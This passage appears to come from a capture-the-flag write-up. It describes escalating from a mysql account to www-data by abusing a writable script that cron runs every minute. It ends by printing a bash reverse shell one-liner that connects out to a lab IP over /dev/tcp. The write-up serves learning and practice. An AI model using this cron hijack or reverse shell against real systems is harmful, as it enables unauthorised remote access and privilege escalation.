 We get a connection as `mysql`  

We check the permissions we have, nothing to actually do but a small `misconfiguration`

<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009114745.png" alt="1" style="width:700px; height:auto;">
<br/>

The permissions are clear as we can change in the scripts directory   
Rechecking the `crontab` file 

<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009121839.png" alt="1" style="width:700px; height:auto;">
<br/>

the `app_backup.sh` is being executed as `www-data` every 1 minute.   
This is our gateway to escalate our privileges and connect as `www-data`.   

- Creating a new `app_backup.sh` file in the `/tmp` directory and put a `reverse shell` payload   

```bash
bash -c "sh -i >& /dev/tcp/10.10.16.57/4444 0>&1"
```
